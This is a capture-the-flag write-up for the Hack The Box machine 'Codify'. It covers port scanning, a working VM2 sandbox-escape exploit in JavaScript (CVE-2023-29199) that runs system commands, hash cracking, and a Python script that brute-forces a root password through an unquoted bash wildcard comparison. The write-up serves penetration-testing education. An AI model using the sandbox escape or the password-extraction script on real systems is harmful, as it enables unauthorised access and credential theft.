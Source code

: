 # Write up
First of all, before starting to explain how has been pwned Codify, I'm going to show you all the concepts that are used to vulnerate this server:
  - An NodeJs vulnerability is exploited to gain access as user CVS (user with minimum privileges)
  - An exaustive system enumeration is needed to detect an ''.db'' file.
  - Cracking hashes.
  - Abusing SUDOERS privilege.

## Reconnaissance phase

As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, it is necessary to add a new line in the file ''/etc/hosts'', where the server IP is defined when a request is made to codify.htb:

[![hosts.png](https://i.postimg.cc/KvyMrT1X/hosts.png)](https://postimg.cc/7bmhqf1X)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/4ySGNV78/Nmap.png)](https://postimg.cc/XBdmsZgF)

As seen in the last image, three open ports were discovered, two HTTP ports and one SSH port. The SSH port had a fairly up-to-date version, so it would be difficult to exploit this service. On the other hand, there are two http ports, so it is worth scanning the technology that is working behind both ports:

[![Scann.png](https://i.postimg.cc/qqLN1mdv/Scann.png)](https://postimg.cc/4HY4dQdD)

Practically, the output of both ports is the same, so it is likely that the same website is being exposed on both ports. For this reason, the two websites are accessed and verified to be the same.

Searching for information about the website, at "http://codify.htb/about" one discovers that it makes use of the NodeJs VM2 library. More specifically, it uses VM2 version 3.9.16:

[![VM2.png](https://i.postimg.cc/cHNCKZ0P/VM2.png)](https://postimg.cc/SXDk5BXG)

VM2 is a JavaScript library used to virtualize a sandbox on a server. In this case, this sandbox is used to run insecure code given by a user in a safe way. For this purpose, VM2 disables some global objects such as process, which allows to obtain information and control the main process.

In addition, developers restricted other modules such as 'child_process' and 'fs'. The child_process module allows to generate threads and thus execute commands on the server, and the fs module allows to interact directly with the file system.

## Exploitation phase

These restrictions can be avoided, as shown in **CVE-2023-29199**. The following code is used for this purpose:

```JavaScript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
```

Why are restrictions avoided with this code? Because VM2 uses the transformer() module to preprocess and modify its source code, for example, they modify the way exceptions are raised to raise sanitized exceptions with handleException().

In short, these functions use Reflect.getPrototypeOf() to get the prototype of the error object. Thus, the Proxy object can be used to throw unsanitized exceptions containing malicious code.

In addiction, as the exceptions have the ability to access the main process, so they can return an object that is not possible in the sandbox thread, and the data input is not sanitized, the attacker can run his own commands on the server.

Thanks to all concepts explained, reverse shell was created to access the server, as shown in the following image:

[![explotacion.png](https://i.postimg.cc/x8XTZHJH/explotacion.png)](https://postimg.cc/wRdpy1kT)

## Post exploitation phase
### Privilege escalation to Joshua

After gaining access to the CVS user, it is time to recognize the system. If done right, you will have found a '.db' file in "/var/www/contact". Inside it, you will find a bcrypt hash that you have to crack:

[![fichero.png](https://i.postimg.cc/tJTxDYNn/fichero.png)](https://postimg.cc/5Yhy29Gf)

Now, with the password cracked, it is possible to migrate to Joshua's account.

### Privilege escalation to root
Being Joshua, a reconnaissance of the system was done looking for something that would allow a privilege escalation to root. With a bit of luck, a file was found that can be run as root in "/opt/scripts". the script had the following content:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

How can the file be abused? Well, in Bash the read command does not return a string, so it is mandatory to quote the right part of line 9. Why? Because if it is not quoted it is possible to do a pattern match that will expose the root password. For example, when the script runs and asks you to enter the password, it is possible to type a "*" and avoid comparing passwords and run the whole script, as shown below:

[![Ejecucion.png](https://i.postimg.cc/HxCzYLSR/Ejecucion.png)](https://postimg.cc/mc8CVTWy)

With this concept in mind, it is possible to create a script that will dump the root password:

```python
#!/usr/bin/env python3

import sys,signal,time,subprocess,string,re

def def_handler(sig,frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL_C
signal.signal(signal.SIGINT,def_handler)

if __name__ == "__main__":
    characters = string.ascii_letters + string.digits + "#$%&'()+,-./:;<=>?@[]^_`{|} ~"
    root_password = ""
    patron = r'Password confirmed!'

    while True:

        for character in characters:

            salida=subprocess.run('/opt/scripts/mysql-backup.sh',input=root_password+character+"*",shell=True,stdout=subprocess.PIPE,text=True)

            if re.search(patron,str(salida)):
                root_password = root_password + character
                break
        
        if character == characters[-1]:
            break

print("La contraseña es: " + root_password)
```
